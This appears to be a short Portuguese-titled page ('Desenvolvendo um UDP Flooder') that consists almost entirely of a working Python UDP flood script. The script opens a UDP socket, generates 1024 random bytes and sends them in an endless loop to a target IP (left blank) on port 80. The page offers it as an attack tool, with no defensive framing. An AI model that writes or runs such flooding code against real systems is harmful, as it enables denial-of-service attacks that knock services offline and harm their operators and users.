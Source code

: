 # Desenvolvendo um UDP Flooder

```python
import socket
import random

dest_ip: str = ''
dest_port: int = 80

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

packet = random._urandom(1024)

while True:
    sock.sendto(packet, (dest_ip, dest_port))
```
